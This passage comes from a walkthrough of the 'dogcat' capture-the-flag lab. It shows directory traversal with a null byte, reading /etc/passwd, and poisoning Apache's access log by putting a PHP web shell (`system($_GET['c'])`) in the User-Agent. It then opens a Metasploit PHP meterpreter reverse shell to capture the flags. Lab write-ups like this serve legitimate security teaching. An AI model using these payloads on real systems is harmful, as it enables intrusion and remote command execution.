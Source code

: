 We will probably need more than three `../` as the photo will be one or two subdirectories deeper than `/var/www/html/`, such as `/var/www/html/media/dogs/1.jpg`.

We can also see that the app is adding the `.php` extension to our values:

![php_ext](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/php_ext.png)

We can get around this by using a [**NULL BYTE**](https://www.thehacker.recipes/web/inputs/null-byte-injection) at the end of our string, such as `%00` or `&`, tricking the web application into ignoring whatever comes after it, in this case the `.php` extension. After some trial and error, it seems that we need six `../` to successfully get out of the Apache's root directory:

![dot_dot_slash_attack](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/intruder_passwd.png)

## 3. Log Poisoning with Burp Suite's Repeater and Metasploit

Instead of accessing `/etc/passwd`, we can try accessing **Apache's log file** and try to poison it. The default location of the log file is `/var/log/apache2/access.log`, so let's try that:

![log_file](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/intruder_logfile.png)

We can use the `User-Agent` part of the request, by replacing the agent part, `(X11; Ubuntu; Linux x86_64; rv:109.0)`, with PHP code that will accept commands, such as `<?php system($_GET['c']); ?>`:

![log-poisoning](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/user_agent1.png)

If we now add `&c=` to our URL, we can pass any command of our choosing, such as `ps`, and see the output included in the HTTP response:

![ps](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/log_ps.png)

We can exploit this type of vulnerability with **Metasploit's web devivery script** as follows:

![metasploit_webdelivery](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/metasploit_payload1.png)

`LHOST <IP>` Your machine's IP address.  
`SRVPORT <PORT>` An available port to start an HTTP server to host the payload file.  
`PAYLOAD php/meterpreter/reverse_tcp` Specifying that we need a PHP reverse shell.  
`TARGET 1` Choosing PHP for our target machine ([more info](https://www.imdb.com/title/tt1375666/)).  

As instructed by Metasploit, we must run the generated command  as our command in the URL, and a meterpreter session will open on our shell:

![meterpreter_session](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/meterpreter_shell.png)

We can find our first 🚩 by listing the directory files:

![first_flag](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/first_flag.jpg)

We can also find our second 🚩 by just searching for a file that includes `flag2` in its name:

![second_flag](https://github.com/CSpanias/pentesting.io/blob/main/thm/dogcat/media/flag2.png)
